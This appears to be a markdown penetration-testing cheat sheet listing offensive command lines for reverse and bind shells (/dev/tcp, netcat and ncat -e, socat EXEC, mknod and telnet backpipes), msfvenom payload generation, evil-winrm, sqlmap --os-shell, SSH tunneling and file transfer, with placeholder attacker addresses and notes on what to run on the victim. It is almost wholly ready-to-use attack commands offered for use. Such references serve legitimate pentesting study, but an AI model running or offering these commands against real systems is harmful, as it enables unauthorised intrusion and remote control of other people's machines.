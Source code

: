 # [/dev/tcp](https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/):
#### `sh -i >& /dev/tcp/X.X.X.X/YYY 0>&1`
  * [archived](https://web.archive.org/web/20190920152858/https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/)

# [evil-winrm](https://github.com/Hackplayers/evil-winrm):
#### `evil-winrm -i X.X.X.X -u <usenamer> -p <password>`
#### `evil-winrm -i X.X.X.X -u <username> -p -s <path/to/ps1>`
  * -s allows yoiu to load powershell scripts from Kali to the victim

# [mknod](https://man7.org/linux/man-pages/man1/mknod.1.html):
#### `mknod /tmp/backpipe p`
#### `/bin/sh 0</tmp/backpipe | nc X.X.X.X YYY 1>/tmp/backpipe`
#### `mknod /tmp/backpipe p && telnet X.X.X.X YYY 0</tmp/backpipe | /bin/sh 1>/tmp/backpipe`
  * [archived](https://web.archive.org/web/20210310030514/https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

# [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/):
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows`
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows -b "\x00\x0a\x0d"`
  * -p chooses the payload
  * -n prepends a nop sled
  * -a chooses the architecture
  * -b defines bad chars so it won't use them (as a string)
  * -o is the output file
  * -f defines the output format (for instance, a c file)
  * --platform chooses the platform (for instance, windows)
  * LHOST handles the callback ip
  * LPORT handles the callback port

# [ncat](https://linux.die.net/man/1/ncat):
#### `ncat -lnvp YYY`
#### `ncat X.X.X.X YYY -e (/bin/sh or cmd.exe)`
#### `ncat -lnvp --ssl --allow Z.Z.Z.Z YYY`
#### `ncat X.X.X.X YYY -ssl (/bin/sh or cmd.exe)`
  * basically a netcat rewrite with some updated features
  * --ssl will encrypt the traffic using a temporary key
  * --allow will only allow connections from the specified host

# [netcat](https://linux.die.net/man/1/nc):
#### `nc -lnvp YYY`
#### `nc X.X.X.X YYY -e (/bin/sh or cmd.exe)`
#### `nc -lnvp YYY -e (/bin/sh or cmd.exe)`
#### `nc X.X.X.X YYY`
#### `nc -lnvp YYY > (name.sh or name.exe)`
#### `nc X.X.X.X YYY < (name.sh or name.exe)`
  * -e binds a command
  * -l listens
  * -p is the source port
  * -n prevents DNS lookups on addresses, hostnames, and ports

# [rinetd](https://manpages.debian.org/unstable/rinetd/rinetd.8.en.html)
#### `nano /etc/rinetd.conf`
#### `X.X.X.X YYY A.A.A.A BBB (in the conf file)`
#### `service rinetd restart`
  * Redirects traffic received on YYY from X.X.X.X to A.A.A.A:BBB
    * X.X.X.X can be 0.0.0.0 to redirect traffic from any source
  * Restart the service after changing the configuration file to apply changes

# [socat](https://linux.die.net/man/1/socat):
#### `socat - TCP4:X.X.X.X:YYY`
#### `socat TCP4-listen:YYY STDOUT`
#### `socat TCP4:X.X.X.X:YYY EXEC:(/bin/bash or cmd.exe)`
#### `socat TCP4-listen:YYY,fork file:name.txt`
#### `socat TCP4:X.X.X.X:YYY file:name.txt,create`

# [sqlmap](https://web.archive.org/web/20191201191308/https://github.com/sqlmapproject/sqlmap/wiki/Introduction):
#### `sqlmap -u X.X.X.X --crawl=1`
#### `sqlmap -u X.X.X.X/resource.php --dbms=mysql --os-shell`
  * -u specifies the url of the target
  * -l allows you to input an intercept file from burp
  * -f does dbms fingerprinting
  * --crawl does enumeration
  * --os-shell tries to get an interactive shell

# [ssh](https://linux.die.net/man/1/ssh):
#### `plink -l <username> -pw <password> X.X.X.X -R YYY:A.A.A.A:BBB`
#### `ssh -D YYY <username>@X.X.X.X`
  * -R binds a remote server's (X.X.X.X) port (YYY) to the local server's (A.A.A.A) port (BBB) using the remote server's credentials
  * -D specifies a local dynamic application-level port forwarder for tunneling

# [telnet](https://linux.die.net/man/1/telnet):
#### `nc -nlvp YYY`
#### `nc -nlvp ZZZ`
#### `telnet X.X.X.X YYY | /bin/sh | telnet X.X.X.X ZZZ`
  * [archived](https://web.archive.org/web/20210310030514/https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
  * Run the top two commands on the attacker machine, then the bottom command on the victim
  * Type commands into the first shell window, then read the output from the second shell window

